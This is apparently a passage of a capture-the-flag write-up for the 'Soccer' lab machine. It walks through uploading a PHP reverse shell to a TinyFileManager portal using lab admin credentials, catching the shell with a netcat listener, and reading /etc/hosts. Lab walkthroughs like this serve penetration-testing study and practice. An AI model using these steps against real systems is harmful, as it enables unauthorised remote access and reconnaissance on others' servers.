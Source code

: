 Note: TinyFileManager uses PHP.

## PHP Reverse Shell

**Actions:**\
Create a new file with this php reverse shell script: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (or any other PHP reverse shell script).\
Edit the file and change the following variables *$ip* (the machine a victim should connect to) and *$port* (the port a victim should connect to).

## Reverse Shell Listener (netcat)

**Command:** *sudo nc -lvnp 9001*

**Command Description:**\
* -l : Listener (listen for incoming connections)
* -v : Verbose
* -n : Numeric only ip addresses (no DNS)
* -p : Port

**Results:**\
Listening for incoming connections on port 9001.


## Account Access

**Actions:**\
Use admin credentials acquired from the *OSINT* phase (*admin/admin@123*) to log into the tinyfilemanger portal *soccer.htb/tiny*

## File Upload

**Actions:**\
Navigate to *tiny* directory and then *uploads* directory and then press upload on the top right corner and choose the previously created modified php reverse shell from the *PHP Reverse Shell* phase.

## Triggering the PHP Reverse Shell

**Actions:**\
Navigate to: http://soccer.htb/tiny/uploads/php-reverse-shell.php

**Results:**\
The PHP reverse shell will trigger and open a shell from the netcat listener that was setup in the *Reverse Shell Listener (netcat)* phase.

## Inside the Shell

Print */etc/hosts* to see if there are other subdomains/hosts *cat* command.

**Command:** *cat /etc/hosts*

**Results:**\
It displays a subdomain *soc-player.soccer.htb* that could be accessed.
